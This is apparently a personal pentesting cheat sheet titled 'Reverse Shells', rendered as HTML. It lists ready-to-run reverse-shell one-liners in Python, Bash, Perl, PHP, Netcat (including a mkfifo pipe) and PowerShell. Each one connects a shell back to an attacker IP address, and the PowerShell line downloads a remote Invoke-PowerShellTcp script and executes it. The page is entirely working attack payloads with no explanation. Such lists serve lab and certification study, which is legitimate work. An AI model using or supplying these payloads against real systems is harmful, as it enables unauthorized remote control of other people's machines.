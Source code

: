 ```yaml
---
title: "Reverse Shells"
---
```


Python:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 500px; white-space: pre-wrap;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</code>
</div>


Bash:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 </code>
  <code>bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
</div>


Perl:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' </code>
</div>

PHP:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
</div>

Netcat:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>nc -e /bin/sh 10.0.0.1 1234 </code>
  <code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f </code>
</div>

Powershell:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" </code>
</div>
